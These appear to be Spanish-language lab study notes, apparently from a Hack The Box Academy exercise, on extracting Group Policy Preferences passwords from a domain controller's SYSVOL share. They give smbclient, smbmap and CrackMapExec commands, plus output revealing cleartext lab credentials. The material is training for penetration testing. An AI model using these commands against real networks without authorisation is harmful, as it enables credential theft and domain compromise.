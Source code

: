 # Group Policy Preferences (GPP) Passwords

- Se puede explotar la forma en que se almacenan y gestionan algunas configs de group policy.
- Cuando se crea una nueva policy se genera un .xml en un share SYSVOL del DC.
- Estos xml pueden tener diversas configs hasta contraseñas.
- Suelen tener cierta protección con criptografía.

## Atacar
- `smbclient //DOMAIN/SYSVOL -U USER`
    - `/Policies/{PolicyGUID}/Machine/Preferences/Groups/`
    - Archivos como: Groups.xml, Drives.xml, ScheduledTasks.xml
- Para desencriptar hay que usar gpp decrypt

## Ejemplo SMB MAP
- `smbmap -H IP -u USER -p PASS`
- `smbmap -H IP -u USER -p PASS -r SYSVOL`
- Para descargar: `smbmap -H IP -u USER -p PASS --download SYSVOL/path/to/groups.xml`

### Locating & Retrieving GPP Passwords with CrackMapExec
```powershell
GNT@htb[/htb]$ crackmapexec smb -L | grep gpp

[*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password.
[*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.

```

### Using CrackMapExec's gpp_autologin Module
```powershell
GNT@htb[/htb]$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [+] Found SYSVOL share
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Searching for Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Found INLANEFREIGHT.LOCAL/Policies/{CAEBB51E-92FD-431D-8DBE-F9312DB5617D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [+] Found credentials in INLANEFREIGHT.LOCAL/Policies/{CAEBB51E-92FD-431D-8DBE-F9312DB5617D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Domains: ['INLANEFREIGHT.LOCAL']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Passwords: ['ILFreightguardadmin!']
```